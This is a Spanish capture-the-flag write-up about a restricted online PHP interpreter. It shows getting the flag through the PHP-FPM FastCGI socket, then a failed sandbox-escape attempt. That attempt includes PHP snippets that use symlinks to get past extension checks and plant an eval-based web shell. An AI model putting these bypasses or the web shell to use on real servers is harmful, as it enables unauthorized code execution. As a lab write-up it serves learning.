









# CTF FWHIBBIT - Impossible is nothing - Indonesia

En esta prueba nos encontramos con un editor e interprete de código PHP. En la descripción nos indican que la flag se encuentra en */tmp/flag.php*


Si probamos a ejecutar un comando utilizando system nos salta una advertencia indicando que esta función esta deshabilitada.


La función *file_get_contents* y otras funciones de acceso a ficheros también están deshabilitadas, sin embargo, la función readfile no funciona al el wrapper 'file://' esta deshabilitado.


En su momento también conseguí encontrar alguna función habilitada que permitiera usar los wrappers *http* *ftp* o *php*. Aunque no fue posible realizar ninguna acción al estar deshabilitados.

La función *symlink* esta habilitada, fue posible crear un enlace simbólico del fichero con el flag, pero no leerlo.

Para obtener esta información no iba a ciegas, había utilizado en un primer momento phpinfo para ver que funciones estaban deshabilitadas, ademas de rutas, versiones y otra información jugosa.


También se me ocurrió utilizar funciones de FTP o MySQL para conectar a otro servicio y acceder al flag, pero tampoco estaban instaladas las librerías. Así que utilicé la función *fsockopen* para realizar un escaneo de puertos abiertos en la maquina con la esperanza de tener un servicio vulnerable esperándome.


Además de encontrar abierto el puerto de la prueba y de otras pruebas, había un servicio SSH en el puerto 2221. Aunque parecía interesante, asumí que no era parte de la prueba y seguí por otro camino.

Leyendo en infinidad de sitios, hablaban de la posibilidad de conectarse al cgi de php en el puerto 9000, pero en este caso no se encontraba abierto. También existía la posibilidad de conectarse a este mismo servicio a través de un socket de unix que por defecto debería encontrarse en la ruta */var/run/php-fpm.sock*. Pero no fue así.

Después de probar diferentes variaciones que aparecían en diferentes sitios como poner la versión: php5-fpm.sock, utilizar el directorio: */var/run/php/* o */run/*, etc… Después de bastantes intentos, recordé que phpinfo nos indicaba claramente que se trata de la versión 7 de php, así que buscando un poco mas encontré que la ruta por defecto para el socket se encontraba en */run/php/php7.0-fpm.sock*.


Una vez encontrado el socket, solo nos queda comunicarnos con el y pedirle amablemente que nos devuelva el archivo */tmp/flag.php*

Para ello utilicé un script en Ruby que nos devuelve la llamada en formato binario. <https://raw.githubusercontent.com/ONsec-Lab/scripts/master/fastcgipacket.rb>


Construimos el código php con la llamada binaria y obtenemos la flag.


---

# CTF FWHIBBIT – Impossible is nothing – Indonesia – Parte 2

En esta segunda parte explicaré el proceso que he seguido para intentar, sin exito, evadir las protecciones de la prueba y hacerme con el control de la maquina, o al menos del docker donde se encuentra la prueba.

En el ultimo paso de la solución a la prueba se consiguió ejecutar el archivo PHP en el que se encontraba la flag.

Por tanto, nuestro primer objetivo será ejecutar nuestro propio código, pero a través del CGI.

Para ello voy a simplificar el proceso utilizando directamente la librería/clase [PHP-FastCGI-Client](https://github.com/adoy/PHP-FastCGI-Client) para comunicarme con el socket de PHP/CGI.



Modificando la petición es posible llamar a *ajax.php* para ejecutar cualquier código PHP que se encuentre en la variable *phpcode*.



De esta forma tampoco es posible evadir las protecciones para ejecutar funciones prohibidas o habilitar el wrapper *file*.


Mi siguiente intento fue el de subir mi propio archivo PHP y ejecutarlo, para ello podia utilizar la función *tmpfile* para crear un fichero de nombre aleatorio en el directorio */tmp/* y *fwrite* para escribir en el. Al no tener este archivo la extension *.php*, por seguridad, no es posible ejecutar el archivo.

``php
// Crear archivo temporal
$data = '<?php phpinfo(); ?>';
$tmpHandle = tmpfile();
$metaDatas = stream_get_meta_data($tmpHandle);
$tmpFilename = $metaDatas['uri'];
echo $tmpFilename;
fwrite($tmpHandle, $data);
```



Para evadir esta protección solo es necesario modificar la extensión del archivo, o mucho mas rápido, crear un enlace simbólico con la extensión php.

```php
$newphp = '/tmp/pwned.php';
symlink($tmpFilename, $newphp);
```



De esta forma ya tenemos habilitados todos los wrappers y hemos conseguido evadir una de las protecciones.



Para simplificar el proceso y no tener que crear un archivo nuevo cada vez en el directorio */tmp/*, se sube un archivo similar a *ajax.php* con la opción de ejecutar código PHP proveniente de una variable.

```php
$data = '
<pre>
<?php
    $cod = \'<pre><?php eval(@$_POST["phpcode"]); ?></pre>\';
    var_dump(file_put_contents(\'/tmp/shell.php\', $cod));
    readfile(\'/tmp/shell.php\');
?>
</pre>
';
```



A partir de aquí se puede seguir investigando cómodamente, tan solo cambiando el código a ejecutar en la variable *$code*.

Podemos usar *scandir* para listar los archivos de un directorio.





También es posible usar *readfile* para leer archivos de configuración del sistema, o el mismo código fuente de la prueba.



Finalmente no fue posible conseguir ejecución de comandos en la maquina evadiendo la protección de funciones deshabilitadas, ni siquiera utilizando un hook con *LD_PRELOAD* como se explica en el [blog de 0verl0ad](http://www.0verl0ad.net/2016/03/bypassing-disablefunctions-y.html) al estar la función *mail* deshabilitada.
